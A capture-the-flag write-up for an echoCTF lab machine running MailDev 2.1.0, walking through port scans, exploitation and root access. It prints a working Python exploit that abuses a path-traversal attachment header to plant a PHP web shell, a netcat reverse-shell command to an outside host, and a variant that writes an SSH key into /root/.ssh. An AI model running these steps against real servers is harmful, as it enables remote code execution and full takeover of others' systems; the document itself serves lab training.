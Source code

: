 ```yaml
---
description: >-
  Maildev echoCTF Machine
title: Maildev (Intermediate)                # Add title here
date: 2025-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Maildev.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.229
```

### Content

- MailDev 2.1.0 Arbitrary File Write leading to RCE

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:36:09 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.229
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.229 ()   Status: Up
Host: 10.0.160.229 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1025/open/tcp//NFS-or-IIS///, 1080/open/tcp//socks///
```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:41:58 2025 as: nmap -p22,80,1025,1080 -sCV -n -Pn -vvvv -oN targeted 10.0.160.229
Nmap scan report for 10.0.160.229
Host is up, received user-set (0.16s latency).
Scanned at 2025-01-31 12:41:58 EST for 49s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d2:90:46:0b:0e:e5:66:59:cc:03:18:88:10:53:e6:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOxIeIjpYc2Od5GnvL0Ff26fP1aJ9bpfSlDN/KZZ7N53EQLiDv4fCcXPfU1l6Isz1MMSZdYPQbEsev4dj86/CBo=
|   256 ee:cb:b8:c8:31:c7:f5:2c:b8:89:6b:33:ad:29:7c:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICxY+jtb5JfiQu6/xe1/jy2mxXJFij2dj4sLuIKDYGd7
80/tcp   open  http    syn-ack ttl 63 nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
1025/tcp open  smtp    syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 1025
| fingerprint-strings: 
|   GenericLines: 
|     220 maildev.echocity-f.com ESMTP
|     Error: command not recognized
|     Error: command not recognized
|   GetRequest, Hello, Help: 
|     421 maildev.echocity-f.com You talk too soon
|   NULL: 
|_    220 maildev.echocity-f.com ESMTP
```

### Exploitation

There are three ports open for this machine, two of them TCP-1025 and TCP-1080 are part of the maildev software:
![](/assets/img/Pasted-image-20250131124505.png)

The HTTP port TCP-1080 as shown in the previous image displays the version running on this machine, so first step is to identify a good exploit for [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py), unfortunately this doesn't works, so with the aid of ChatGPT and after understanding the exploit I came with this exploit:
```bash
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage

# Configuration
smtp_server = "10.0.160.229" #Replace with your MailDev server
smtp_port = 1025  # Replace with the correct SMTP port
sender_email = "attacker@codegate2023.org"
recipient_email = "victim@codegate2023.org"

# Malicious JavaScript to overwrite routes.js
malicious_js = """
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
"""

# Create the multipart email
msg = MIMEMultipart("alternative")  # Using "alternative" instead of "mixed"
msg["From"] = sender_email
msg["To"] = recipient_email
msg["Subject"] = "Exploit Email"

# Attach the malicious JavaScript as plain text
malicious_part = MIMEImage(malicious_js.encode('utf-8'), _subtype="png", name="a.png")
malicious_part.add_header("Content-ID", "<../../../../var/www/html/shell.php>")
#malicious_part.add_header("Content-Disposition", "inline")
msg.attach(malicious_part)

# Send the email
with smtplib.SMTP(smtp_server, smtp_port) as server:
    server.sendmail(sender_email, recipient_email, msg.as_string())

print("Exploit email sent.")

```
An important step to consider here is that the exploit is an Arbitrary File Write, because of this, we need to know what path is going to be used to upload our shell, since the directory of the MailDev UI port is not known, the best approach is to upload our shell to the most common path of the Nginx server `/var/www/html`. After executing this exploit we have a reverse shell:

```bash
http://10.0.160.229/shell.php?cmd=whoami
```

![](/assets/img/Pasted-image-20250131125619.png)

All that lefts is to execute the reverse shell of your choice, I used:
```bash
nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
This was a privilege escalation hidden on plainsight and linpeas will not help to discover the privesc, if you do a basisc `ls -al` to the uploaded shell.php uploaded to get the revshell, you'll see that it was uploaded not as `www-data` but as root:
```bash
www-data@maildev:/var/www/html# ls -al
total 20
drwxr-xr-x 1 www-data root 4096 Jan 31 18:38 .
drwxr-xr-x 1 root     root 4096 Jan  3  2024 ..
-rw-r--r-- 1 www-data root  615 Jan  3  2024 index.nginx-debian.html
-rw-r--r-- 1 root     root   62 Jan 31 18:38 shell.php
```
Then you have Arbitrary File Write anywhere on the system, so let's upload our `authorized_keys` to the ``/root/.ssh` folder by modifing this line of code on our exploit:
```bash
# Malicious JavaScript to overwrite routes.js
malicious_js = """
ssh-ed25519 A<REDACTED>h kali@kali
"""
```
And we are inside!!!

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`


### Credentials

No credentials were identified or needed

### Notes

- The privilege escalation for this one was very tricky, all you need to do is check the permissions of the uploaded webshell from the exploitation step, you'll see that is uploaded as root, then you'll notice that you can upload any file anywhere on the system.   

### References
- [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py)


